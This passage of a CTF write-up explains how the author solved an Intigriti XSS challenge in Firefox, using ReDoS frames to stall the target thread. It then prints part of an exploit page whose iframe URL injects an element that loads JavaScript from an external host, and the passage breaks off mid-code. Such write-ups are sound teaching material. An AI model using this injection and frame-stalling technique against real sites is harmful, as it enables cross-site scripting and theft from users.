 ```html
    </script>
  </body>
</html>
```

## 🧩 The Final Puzzle — Firefox
Side note: when I do CTFs or hack, I follow a general approach — first get the idea, then implement it; if it fails, dig into the root cause, fix it if possible, or move on. So I tested the idea in Firefox, it failed, and I got curious why. After digging deeper, I concluded Firefox runs the challenge frame in a separate thread because the parent and child are cross-origin. It’s not that simple, but for brevity, let’s assume it’s due to the cross-origin nature of the parent page and child frame \([more here](https://hassansin.github.io/shared-event-loop-among-same-origin-windows)\).

This left me stumped. I tried finding gadgets on the challenge page to bridge the gap, but there were none, and from the cross-origin parent page, I had no way to influence that other thread.

I reached out to Johan and he told me what I was looking for was in the hints. For some reason, my brain immediately flashed back to an error I’d seen earlier while messing with the regex. The error was:

```
Uncaught InternalError: too much recursion
```
This happened because the `name` parameter was too long for the regex to process, causing the thread to stay busy. I realized this was the solution and quickly started implementing it. After several attempts, I managed to trigger the XSS by framing multiple ReDoS payloads along with one frame containing the actual XSS payload.

## 🧨 The dirty Exploit:

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Exploit</title>
  </head>
  <body>
    <iframe
      width="50%"
      height="100%"
      src="https://challenge-0525.intigriti.io/index.html?name=%3C/strong%3E%3Cdiv%20id=CONFIG_SRC%20data-url=%22https:/temp.staticsave.com/6821d52de70e4.js%22%3Ell%3C/div%3Edcsd"
    ></iframe>
    <div class="container"></div>

    <script>
      function addRedosFrames() {
        var ele = `<iframe
      width="50%"
      height="100%"
```